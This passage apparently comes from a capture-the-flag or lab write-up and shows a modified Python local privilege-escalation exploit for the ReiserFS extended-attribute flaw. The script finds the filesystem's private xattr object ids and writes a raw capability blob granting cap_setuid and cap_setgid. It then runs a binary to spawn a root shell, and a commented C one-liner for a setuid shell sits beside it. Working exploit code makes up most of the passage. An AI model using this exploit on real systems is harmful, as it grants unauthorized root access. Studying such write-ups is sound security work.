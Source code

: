 **Step 2** : Modify the original python script

- leave out the components that would deal with the compilation and check if the compilation was successful
- make absolute file/path references
- point the xattrs into /apachelogs (instead of /)

(sud0 and the others from Corelan Team fixed most of the issues I had with the script – and they finally rooted the machine before I could… so big kudos to them)

```
import os, sys
#SHELL = 'int main(void) { setgid(0); setuid(0); execl("/bin/sh", "sh", 0); }'
XATTR = '\x41\x58\x46\x52\xc1\x00\x00\x02\x01\x00\x00\x02\xc0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
 
def err(txt):
    print '[-] error: %s' % txt
    sys.exit(1)
 
def msg(txt):
    print '[+] %s' % txt
 
def main():
    msg('checking for reiserfs mount with user_xattr mount option')
    f = open('/etc/fstab')
    for line in f:
        if 'reiserfs' in line and 'user_xattr' in line:
            break
    else:
        err('failed to find a reiserfs mount with user_xattr')
    f.close()
 
    msg('checking for private xattrs directory at /apachelogs/.reiserfs_priv/xattrs')
 
    if not os.path.exists('/apachelogs/.reiserfs_priv/xattrs'):
        err('failed to locate private xattrs directory')
  
    msg('capturing pre-shell snapshot of private xattrs directory')
    pre = set(os.listdir('/apachelogs/.reiserfs_priv/xattrs'))
     
    msg('setting dummy xattr to get reiserfs object id')
 
    ret=os.system('setfattr -n "user.hax" -v "hax" /apachelogs/data/corelanc0d3r')
    if ret != 0:
        err('error setting xattr, you need setfattr')
 
    msg('capturing post-shell snapshot of private xattrs directory')
    post = set(os.listdir('/apachelogs/.reiserfs_priv/xattrs'))
    objs = post.difference(pre)
 
    msg('found %s new object ids' % len(objs))
    for obj in objs:
        msg('setting cap_setuid/cap_setgid capabilities on object id %s' % obj)
        f = open('/apachelogs/.reiserfs_priv/xattrs/%s/security.capability' % obj, 'w')
        f.write(XATTR)
        f.close()
 
    msg('spawning setuid shell...')
    os.system('/apachelogs/data/corelanc0d3r')
 
if __name__ == '__main__':
    main()
```
